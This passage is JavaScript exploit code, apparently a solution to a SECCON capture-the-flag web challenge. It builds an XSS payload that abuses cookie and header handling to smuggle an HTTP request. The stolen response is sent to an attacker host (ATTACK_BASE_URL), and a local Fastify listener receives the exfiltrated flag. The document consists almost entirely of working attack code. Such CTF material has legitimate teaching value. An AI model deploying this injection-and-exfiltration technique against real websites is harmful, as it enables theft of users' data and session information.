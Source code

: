 ```javascript
  const contentLength =
    "Accept: */*\r\nReferer: http://nginx:3000/\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCookie: "
      .length;
  const evilHeader = encode(`bbb\r\nContent-Length: ${contentLength}\r\n`);

  const evilJs = `
    const main = async () => {
      document.cookie = '/?a=b HTTP/1.1';

      const res = await fetch('/api?expr=1', {
        method: 'GET',
        headers: {
          'aaa': '${evilHeader}',
        },
      });
      location = '${ATTACK_BASE_URL}/?text=' + encodeURIComponent(await res.text());
    };
    main();
  `.replaceAll("\n", "");
  if (evilJs.includes('"')) {
    fail("Invalid evilJs");
  }

  const xssPayload = `<img src=0 onerror="${evilJs}">`;

  const res = await (
    await fetch(`${SECCON_BASE_URL}/report`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        expr: xssPayload,
      }),
    })
  ).text();
  console.log(res); // "Received :)"
};

const start = async () => {
  fastify.get("/", async (req, reply) => {
    const text = req.query.text;
    console.log(text); // Print a flag

    process.exit(0);
  });

  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) {
        fastify.log.error(err);
        process.exit(1);
      }

      await sleep(1000);
      await exploit();

      await sleep(5000);
      console.log("Failed");
      process.exit(1);
    }
```